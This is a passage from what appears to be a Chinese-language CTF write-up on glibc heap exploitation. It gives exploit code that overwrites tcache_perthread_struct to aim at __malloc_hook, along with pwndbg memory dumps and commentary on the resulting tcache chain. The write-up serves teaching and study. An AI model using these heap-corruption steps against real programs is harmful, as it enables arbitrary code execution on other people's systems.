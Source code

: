这里不在多说，计算出了__malloc_hook、__libc_realloc、one_gadget的地址。

## 创建堆块，向其中写入__malloc_hook
```python
new(0x50) #4
edit(4, 'b' * 0x48 +  p64(malloc_hook - 0x13))
```

```python
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x555555757000
Size: 0x61

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x555555757060
Size: 0x1f1
fd: 0x7ffff7dcfca0
bk: 0x7ffff7dcfca0

Allocated chunk
Addr: 0x555555757250
Size: 0x60

Top chunk | PREV_INUSE
Addr: 0x5555557572b0
Size: 0x20d51

pwndbg> x/100gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000061 #new_malloc_chunk
    												   #new_tcache_perthread_struct
0x555555757010:	0x6262626262626262	0x6262626262626262
0x555555757020:	0x6262626262626262	0x6262626262626262
0x555555757030:	0x6262626262626262	0x6262626262626262
0x555555757040:	0x6262626262626262	0x6262626262626262
0x555555757050:	0x6262626262626262	0x00007ffff7dcfc1d
    								#malloc_hook - 0x13
0x555555757060:	0x0000000000000000	0x00000000000001f1 #old_tcache_perthread_struct
0x555555757070:	0x00007ffff7dcfca0	0x00007ffff7dcfca0
------------------------------------------------------------------------------
看到上面内存中所标注的吗？
在创建这个堆块之前tcache_perthread_struct已经被放入到了unsortedbin中了，
由于此时tcache、fast、smallbin中均没有空闲的chunk，而unsortedbin正好有，
因此malloc出的堆块是从unosortedbin中进行切割，新malloc出的chunk在
原来tcache_perthread_struct的位置，现在它已经成为新的tcache_perthread_struct
0x00007ffff7dcfc1d正好是tcache 0x30链所处的位置，理所当然的出现在了
tcache bin 0x30链中。
------------------------------------------------------------------------------
.......(省略内容均为空)
0x555555757250:	0x00000000000001f0	0x0000000000000060 #chunk
0x555555757260:	0x0000555555757010	0x000000000000000a
0x555555757270:	0x0000000000000000	0x0000000000000000
0x555555757280:	0x0000000000000000	0x0000000000000000
0x555555757290:	0x0000000000000000	0x0000000000000000
0x5555557572a0:	0x0000000000000000	0x0000000000000000
0x5555557572b0:	0x0000000000000000	0x0000000000020d51 #top_chunk
.......(省略内容均为空)
0x555555757310:	0x0000000000000000	0x0000000000000000
pwndbg> x/16gx 0x555555756060
0x555555756060:	0x0000005000000000	0x0000000000000050
0x555555756070:	0x0000000000000050	0x0000000000000000
0x555555756080:	0x0000555555757260	0x0000555555757260
0x555555756090:	0x0000555555757260	0x0000555555757010
0x5555557560a0:	0x0000555555757010	0x0000000000000000
```